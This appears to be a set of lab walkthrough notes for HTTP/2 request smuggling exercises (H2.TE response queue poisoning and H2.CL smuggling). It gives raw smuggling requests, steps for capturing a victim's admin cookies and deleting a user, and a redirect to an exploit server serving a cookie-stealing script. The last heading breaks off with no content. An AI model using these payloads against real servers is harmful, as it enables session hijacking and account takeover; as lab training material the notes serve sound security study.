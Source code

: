 ### Response queue poisoning via H2.TE request smuggling

Send this request 
```text
POST / HTTP/2
Host: 0afa005f042de263a611c2ac00900049.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 13

0

SMUGGLED
```
Send it twice, and the second time you'll receive a 404 error

You now need to send this request, and wait for around 5 seconds (the time window for the "victim" user to generate a request, and if you send this request again, should see the response of the victim. In this case, a 302, with the admin cookies)

Send a request to /admin/delete?username=carlos, and delete Carlos account.

---
### H2.CL request smuggling

Send this request twice, and should get a 404

```text
POST / HTTP/2
Host: 0abb006e04b4cd5882c6d3ed0054003d.web-security-academy.net
Content-Length: 0

SMUGGLED
```

There is an endpoint /resources, that generates a redirect. So, in the exploit server, change your file name to /resources

And the body is: `alert(document.cookie)`

This is your final payload
```text
POST / HTTP/2
Host: 0abb006e04b4cd5882c6d3ed0054003d.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0ac400a30486cd7f82b7d26b01940041.exploit-server.net
Content-Length: 5

x=1
```

---
### HTTP/2 request smuggling via CRLF injection
